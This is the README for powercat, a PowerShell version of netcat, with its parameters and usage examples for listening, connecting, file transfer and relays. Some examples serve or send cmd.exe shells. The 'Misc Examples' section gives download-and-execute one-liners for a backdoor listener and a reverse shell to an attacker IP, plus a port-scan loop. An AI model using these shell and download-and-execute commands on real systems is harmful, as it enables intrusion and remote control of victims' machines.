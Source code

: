 #powercat

Netcat: The powershell version. (Powershell Version 2 and Later Supported)

### Parameters:
    -l    Listen for a connection.                             [Switch]
    -c    Connect to a listener.                               [String]
    -p    The port to connect to, or listen on.                [String]
    -e    Execute. (GAPING_SECURITY_HOLE)                      [String]
    -r    Relay. Format: "-r tcp:10.1.1.1:443"                 [String]
    -u    Transfer data over UDP.                              [Switch]
    -t    Timeout option. Default: 60                          [int32]
    -i    Input: Filepath (string), byte array, or string.
    -o    Output Type: "Host", "Bytes", or "String"            [String]
### General Usage Examples:
    Listen and Connect:
        powercat -l 443
        powercat -c 10.1.1.10 443
    Serve and Send Shells:
        powercat -l -e cmd.exe 443
        powercat -c 10.1.1.10 -e cmd.exe 443
    Output to a File:
        powercat -l -p 8000 -o "String" | Out-File C:\outputfile
        [IO.File]::WriteAllBytes("C:\outputfile",(powercat -l -p 8000 -o "Bytes"))
    Send a File:
        powercat -c 10.1.1.10 -p 443 -i "C:\inputfile"
        ([IO.File]::ReadAllBytes('C:\inputfile')) | powercat -c 10.1.1.10 -p 443
### powercat Relay Examples:
    Listener to Client Relay (TCP to TCP):
        powercat -l -p 8000 -r tcp:10.1.1.16:443
    Listener to Listener Relay (TCP to TCP):
        powercat -l -p 8000 -r tcp:4444
    Client to Listener Relay (TCP to TCP):
        powercat -c 10.1.1.16 -p 443 -r tcp:4444
    Client to Client Relay (TCP to TCP):
        powercat -c 10.1.1.16 -p 443 -r tcp:10.1.1.16:3389
    Listener to Client Relay (TCP to UDP):
        powercat -l -p 8000 -r udp:10.1.1.16:53
### Misc Examples:
    Download and Execute Powercat Backdoor Listener One-Liner:
        powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -l 8000 -e cmd.exe"
    Download and Execute Powercat Reverse Shell One-Liner (Replace <Attacker IP>):
        powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c <ATTACKER IP> 443 -e cmd.exe"
    Basic TCP Port Scanner:
        (21,22,80,443) | % {powercat -c 10.1.1.10 -p $_ -t 1 -Verbose -d}
